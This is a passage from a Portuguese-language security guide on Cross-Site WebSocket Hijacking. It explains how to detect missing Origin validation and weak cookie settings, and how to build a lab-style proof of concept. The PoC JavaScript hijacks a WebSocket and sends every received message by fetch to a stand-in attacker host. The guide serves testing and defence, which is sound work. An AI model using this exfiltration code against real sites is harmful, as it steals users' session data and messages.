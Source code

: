 ## Seção 5: Orientações Práticas para Profissionais de Segurança

Esta seção fornece conselhos acionáveis para testadores de segurança e desenvolvedores, traduzindo o conhecimento teórico em etapas práticas para detecção, exploração e prevenção do CSWH.

### 5.1. Detectando Vulnerabilidades de CSWH: Uma Abordagem Manual e Assistida por Ferramentas

Um teste sistemático do handshake do WebSocket é crucial para identificar vulnerabilidades de CSWH.

- **Identificar Endpoints WebSocket**: Utilize as ferramentas de desenvolvedor do navegador ou um proxy de interceptação como o Burp Suite para monitorar o tráfego de rede e identificar handshakes de WebSocket. Procure por requisições que resultem em uma resposta com código de status 101 Switching Protocols.
- **Analisar a Requisição de Handshake**: Intercepte a requisição de handshake e inspecione-a em busca de proteções anti-CSRF. A ausência de um token anti-CSRF na URL ou nos cabeçalhos, combinada com a autenticação baseada exclusivamente em cookies, é um forte indicador de vulnerabilidade.
- **Testar a Validação do Origin**: Usando uma ferramenta como o Burp Repeater, modifique o cabeçalho `Origin` na requisição de handshake para um domínio arbitrário (ex: `https://malicious-site.com`) e reenvie a requisição. Se a conexão for estabelecida com sucesso, o servidor não está validando a origem adequadamente.
- **Verificar Atributos de Cookies**: Use as ferramentas de desenvolvedor do navegador para inspecionar os cookies de sessão da aplicação. Verifique o atributo `SameSite`. Se estiver definido como `None` ou ausente (em navegadores mais antigos), a aplicação é mais suscetível ao ataque.

### 5.2. Criando uma Prova de Conceito de Exploração

Com base nos laboratórios da PortSwigger, uma prova de conceito (PoC) pode ser criada para demonstrar o impacto da vulnerabilidade.

- **Hospedar uma Página Maliciosa**: Crie um arquivo HTML com JavaScript que será hospedado em um servidor controlado pelo atacante (o Exploit Server no caso do laboratório).
- **Iniciar a Conexão WebSocket**: O script na página maliciosa tentará estabelecer uma conexão WebSocket com o endpoint vulnerável da aplicação alvo.

```javascript
var ws = new WebSocket('wss://vulnerable-website.com/chat');
```

- **Interagir com o Socket Sequestrado**: Use os manipuladores de eventos do WebSocket para enviar e receber dados. O manipulador `onopen` pode ser usado para enviar uma mensagem inicial para o servidor (por exemplo, para solicitar um histórico de chat), enquanto o manipulador `onmessage` interceptará todas as mensagens recebidas do servidor.

```javascript
ws.onopen = function() {
    ws.send("READY"); // Exemplo para solicitar histórico de chat
};
```

- **Exfiltrar Dados**: Dentro do manipulador `onmessage`, os dados recebidos (contidos em `event.data`) podem ser enviados para um servidor controlado pelo atacante usando uma requisição `fetch`.

```javascript
ws.onmessage = function(event) {
    fetch('https://attacker-collaborator-server.com', {
        method: 'POST',
        mode: 'no-cors',
        body: event.data
    });
};
```
